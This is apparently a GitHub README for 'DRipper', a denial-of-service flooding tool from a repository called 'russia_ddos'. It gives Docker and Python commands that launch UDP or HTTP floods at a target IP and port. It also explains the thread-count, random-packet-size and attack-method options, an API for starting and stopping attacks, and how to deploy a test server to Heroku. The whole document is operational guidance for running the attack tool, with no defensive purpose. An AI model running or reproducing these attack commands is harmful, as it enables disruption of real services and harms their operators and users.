 # Description
This is clone of one of ChameleonTartu repos!! 
Creds for original scripts to him!

https://github.com/ChameleonTartu

## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
1. Docker

```bash
docker run -ti --rm alexmon1989/dripper:latest -s testip -p 80 -t 100
```

2. Directly with Python.

Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default - random from (22, 53, 80, 443) for every packet sending);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

-m - attack method: udp (default), http

-r - send packets with random length (up to 50 Kb, works only with UDP attack method)

--resources - name of the resource under attack

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u DRipper.py -s testip -p 80 -t 100 -r 1 -m udp
# OR
python3 -u DRipper.py -s testip -p 80 -t 100 -r 1 -m udp
```


## API

API is a more convenient wrapper over start, stop, list processed for Dripper.py

```
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
pip install requirements.txt
# or
pip3 install requirements.txt

python api.py
# or
python3 api.py
```

Swagger documentation is under 

```
http://localhost:49155/docs
```

## Running test server

Compiling and running locally: 
```
cd test-server/src
javac TestSocketServer.java

# Run
jar cmvf META-INF/MANIFEST.MF heroku/TestSocketServer.jar *.class
java -jar heroku/TestSocketServer.jar
  
# Or
java TestSocketServer
```
Deploy to heroku:
```
cd heroku
heroku plugins:install java
heroku create --no-remote
heroku deploy:jar TestSocketServer.jar --app <your app>
heroku config -a <your app>

heroku logs --tail --app <your app>
```

